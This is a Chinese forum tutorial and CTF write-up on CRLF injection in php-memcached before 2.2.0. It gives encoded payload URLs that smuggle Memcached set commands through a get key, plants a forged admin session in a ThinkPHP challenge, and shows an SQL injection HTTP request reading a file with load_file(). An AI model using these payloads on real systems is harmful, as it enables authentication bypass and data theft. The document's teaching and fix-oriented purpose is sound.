

# 浅谈 php-Memcached CRLF 绕过 - 先知社区

浅谈 php-Memcached CRLF 绕过

- - -

# php-Memcached CRLF 绕过

## 什么是 Memcached：

这是一个免费开源的高性能，分布式内存对象缓存系统，本质上是通用的，但是目的是通过减轻数据库负载来加速动态 Web 应用程序。Memcached 是一种内存键值存储，用于存储来自数据库调用、API 调用或页面渲染结果的任意数据（字符串、对象）的小块，就是通过把数据存到内存当中，通过内存访问可以提高访问的速度。

在 Memcache 中，是通过键值对的形式对数据进行存储的：

```plain
键 (key): 键名不可重复，一般为字符串，最大不可超过 128 个字节。
值 (value): 值的格式可为字符串、数值、数组、对象、布尔、二进制、NULL
```

## 使用 Memcached：

创建并连接 Memcached：

```plain
<?php
    # 1. 创建 Memcached 对象
    $memcached = new Memcached();
    # 2. 定义 Memcached 服务器
    # $memcached->addServer('服务器地址', '端口'); # 单台服务器
    # $memcached->addServers([['服务器地址1', '端口1'],['服务器地址2', '端口2']]); # 多台服务器
    # 例：
    $memcached->addServer('127.0.0.1', '11211');
```

```plain
<?php

    # 1. 创建 Memcached 对象, 并连接 Memcached 服务器
    $memcached = new Memcached();
    $memcached->addServer('127.0.0.1', '11211');

    # 2. 增加一条缓存
    $memcached->add('is_comment', false, 86400);
    $memcached->add('site_config', ['Tel'=>'400-123456', 'address'=>'北京'], 3600);

    # 3. 替换已存在的缓存
    $memcached->replace('is_comment', true, 86400);

    # 4. 增加一条缓存, 不存在则创建, 存在则替换
    $memcached->set('help_info', '帮助信息');

    # 5. 获取缓存
    var_dump($memcached->get('is_comment'));
    var_dump($memcached->get('site_config'));
    var_dump($memcached->get('help_info'));

    # 6. 删除缓存
    $memcached->delete('is_comment');
    var_dump($memcached->get('is_comment'));

    # 7. 清空所有缓存, 慎用
    # $memcached->flush();

    # 8. 值加法
    $memcached->set('number', 2); # 设置初始值为 2
    $memcached->increment('number', 5); # 每次请求都增加5
    var_dump($memcached->get('number'));

    # 9. 值减法
    $memcached->set('number', 2); # 设置初始值为 2
    $memcached->decrement('number', 5); # 每次请求都减少5
    var_dump($memcached->get('number'));

    # 10. 批量增加缓存
    $memcached->setMulti(['key1'=>'value1', 'key2'=>'value2']);
    var_dump($memcached->get('key1'));

    # 11. 批量获取缓存
    $cache_array = $memcached->getMulti(['key1', 'key2']);
    var_dump($cache_array);

    # 12. 批量删除缓存
    $memcached->deleteMulti(['key1', 'key2']);

    # 13. 获取执行情况
    var_dump($memcached->getResultCode()); # 0 成功
    var_dump($memcached->getResultMessage()); # SUCCESS 成功

    # 14. 其它
    # 获取 Memcached 版本信息
    var_dump($memcached->getVersion());

    # 获取服务器统计信息
    var_dump($memcached->getStats());
```

## 漏洞环境：

<2.2.0

```plain
apt-get install memcached
sudo apt-get install php-memcached
```

安装 Memcached 后，输入以下命令，然后只需要配置 php 环境重启 Apache2 即可：

```plain
service memcached start  //开启 Memcached 服务
sudo systemctl restart apache2 
netstat -ntlp  //查看服务是否开启
```

```plain
<?php
$server = new \Memcached();
$server->addServer('localhost', 11211);
$token = $_GET['token'];
$server->set("wolf","poc") ;
echo "[token] = ";
var_dump($server->get("$token"));
echo "[wolf] = ";
var_dump($server->get("wolf"));
```

## Memcached 命令：

### set 命令

Memcached 的 set 命令用于将 value 存储在指定的 key 中，如果 key 已存在则会更新 key 值。

基本语法如下：

```plain
set key flags exptime bytes [noreply] 
value
```

-   **key**：键值 key-value 结构中的 key，用于查找缓存值。
-   **flags**：可以包括键值对的整型参数，客户机使用它存储关于键值对的额外信息。
-   **exptime**：在缓存中保存键值对的时间长度（以秒为单位，0 表示永远）。
-   **bytes**：在缓存中存储的字节数。
-   **noreply**（可选）：该参数告知服务器不需要返回数据。
-   **value**：存储的值（始终位于第二行）（可直接理解为 key-value 结构中的 value）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111415-4cadce2a-cbb0-1.png)

其中 key 值为”monkey”，那么 flag 就是“0”，exptime 则是“100”，代表以 100 秒为单位的数据过期时间，bytes 为“4”，代表数据存储的字节数为“4”，如果数据设置成功则会输出“STORED”状态。

### get 命令

Memcached 的 get 命令获取存储在 key 中的 value，如果 key 不存在则会返回为空。

基本语法如下：

```plain
get key
或
get key1 key2 key3
```

**key：**键值 key-value 结构中的 key，用于查找缓存值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111427-53c5ca46-cbb0-1.png)

可以看到成功获取到实例值，并且输出“END”代表结束。

## 漏洞注入：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111433-576ae258-cbb0-1.png)

我们可以发现 get 这个位置能够输入缓存信息，所以我们在网站中进行注入：

```plain
http://127.0.0.1/index.php?token=monkey%00%0D%0Aset%20allbmonkey%200%20500%203%0D%0Acat

//等同于
get monkey
set allbmonkey 0 500 3
cat
```

## 漏洞修复：

对所有 Memcache 请求进行：

```plain
preg_replace('/\s+/m', '', mb_substr($key, 0, 250))
```

## 强网杯 TP 框架漏洞利用：

### Memcache 缓存注入：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111444-5dfd3ada-cbb0-1.png)

我们可以发现在启动这个题目的靶机的时候调用了 memcached 服务，同时在 Thinkphp 当中也配置了 cache 使用 memcached 缓存：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111624-9986ccc4-cbb0-1.png)

因为利用点是 admin 后台里面，所以我们首先要做的就是登录后台，后台里面我们可以发现登录的时候使用了缓存，先获取缓存然后再进行登录：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111633-9f10e8fa-cbb0-1.png)

因为这里配置了 cache，所以数据会先缓存到 memecached 中，这里我们跟进一个 find 方法。因为$username 不为空，所以这里直接看!$data==null 的 if 语句里面：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111654-ab9b4228-cbb0-1.png)

这里我们可以看到这里 key 的存储形式为：

```plain
$key = 'think:' . $this->connection->getConfig('database') . '.' . (is_array($options['table']) ? key($options['table']) : $options['table']) . '|' . $data;
```

`think:shop.admin|username`

然后调用 Cache:get 将 key 进行查询，所以这个地方我们就可以对 key 进行注入，执行 set 命令，在缓存中设置一个 admin 的值然后来进行后台登录：

我们看一下我们要注入一个什么样的数据，写个 shell 连上蚁剑：

```plain
<?php
namespace app\index\controller;

use think\Controller;
use app\index\model\Goods;
use think\Cache;
use think\Db;

class Index extends Controller
{
    public function test(){
        $result = Db::query("select * from goods where id=1");
        var_dump($result);
        $a = "think:shop.admin|admin";
        Cache::set($a, $result, 3600);
    }
    public function index()
    {
        $this->test();
        $goodsModel = new Goods();
        $goodsList = $goodsModel->getGoodsList();
        $this->assign('goodsList', $goodsList);
        return $this->fetch();
    }

    public function goods($id)
    {
        $goodsModel = new Goods();
        $goods = $goodsModel->getGoodsById($id);
        $this->assign('goods', $goods[0]);
        return $this->fetch();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111707-b2df67bc-cbb0-1.png)

因为我们把查询到的值放入了 Cache 缓存里面，所以我们来进入缓存查一下对应的值是什么样子的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111714-b72771ca-cbb0-1.png)

可以发现缓存的值是通过序列化数组的形式进行存储的，所以我们也就要构造一个账户密码的序列化数组形式来进行注入：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111720-bb172726-cbb0-1.png)

我们新建一个 admin 账户的值在进行一下查询：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111728-bfa8e8c4-cbb0-1.png)

```plain
get think:shop.admin|admin
VALUE think:shop.admin|admin 4 83
a:1:{i:0;a:3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:8:"password";s:5:"admin";}}
END
```

memcached 本身是没有数据类型的，只有 key-value 的概念，存放的都是字符串，但是 PHP 编程语言给它给予了数据类型的概念（当 flags 为 0 为字符串，当 flags4 为数组）,所以我们在注入的时候也要设置 flags 为 4 的值进行注入：

```plain
admin
set think:shop.admin|admin 4 900 101
a:3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:8:"password";s:32:"21232f297a57a5a743894a0e4a801fc3";}

admin%00%0D%0Aset%20think%3Ashop.admin%7Cadmin%204%20900%20101%0D%0Aa%3A3%3A%7Bs%3A2%3A%22id%22%3Bi%3A1%3Bs%3A8%3A%22username%22%3Bs%3A5%3A%22admin%22%3Bs%3A8%3A%22password%22%3Bs%3A32%3A%2221232f297a57a5a743894a0e4a801fc3%22%3B%7D
```

可以看到已经在缓存中有了结果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111738-c5dc486c-cbb0-1.png)

### SQL 注入读文件：

```plain
show variables like "%secure_file%";
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111746-ca3e1818-cbb0-1.png)

可以发现 secure\_file\_priv 的值为空，所以这里我们就能够使用 load\_file() 读文件：

```plain
POST /public/index.php/index/admin/do_edit.html HTTP/1.1
Host: 192.168.82.3:36000
Content-Length: 206
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.82.3:36000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.82.3:36000/public/index.php/index/admin/goods_edit/id/1.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=liuqtach04lpk8e6c5l713jcn3
Connection: close

id=1&name=fake_flag&price=100.00&on_sale_time=2023-05-05T02%3A20%3A54&data`%3Dload_file('/fffflllaaaagggg')%23=https%3A%2F%2Fi.postimg.cc%2FFzvNFBG8%2FR-6-HI3-YKR-UF-JG0-G-N.jpg&data=flag%7Basdasdadadada%7D
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111754-cf4e57dc-cbb0-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240215111800-d2e37db4-cbb0-1.png)
